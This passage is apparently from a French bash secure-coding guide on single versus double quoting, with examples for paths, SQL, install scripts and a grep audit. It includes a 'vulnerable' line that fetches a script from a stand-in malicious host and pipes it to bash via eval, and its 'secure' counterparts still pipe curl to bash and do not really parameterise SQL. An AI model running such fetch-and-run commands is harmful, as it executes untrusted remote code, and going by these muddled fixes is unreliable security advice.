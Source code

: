 2. Manipulation de Fichiers
```bash
# Pour les chemins avec variables, utiliser des guillemets doubles
path="/home/$USER/data"
# Pour les chemins fixes, préférer les guillemets simples
path='/var/www/html'
```

3. Commandes SQL
```bash
# Vulnérable
query="SELECT * FROM users WHERE id = $user_input"

# Sécurisé
query='SELECT * FROM users WHERE id = ?'
```

### Cas Particuliers de Sécurité

#### Scripts d'Installation
```bash
# Vulnérable
install_cmd="curl https://malicious.com/script | bash"
eval "$install_cmd"

# Sécurisé
install_cmd='curl https://verified.com/script | bash'
# Validation manuelle nécessaire avant exécution
```

#### Variables de Configuration
```bash
# Configuration sécurisée
APP_ENV='production'
DEBUG_MODE='false'
ALLOWED_HOSTS='localhost,example.com'
```

### Audit de Sécurité
```bash
# Script de vérification des guillemets
audit_quotes() {
    grep -n '".*"' "$1"  # Trouve les guillemets doubles
    grep -n 'eval.*"' "$1"  # Trouve eval avec guillemets doubles
}
```

[reste du document identique]
### Performance
- Les guillemets simples sont plus rapides car aucune interprétation n'est nécessaire
- Utiliser des guillemets simples pour les chaînes statiques
- Réserver les guillemets doubles pour le contenu dynamique
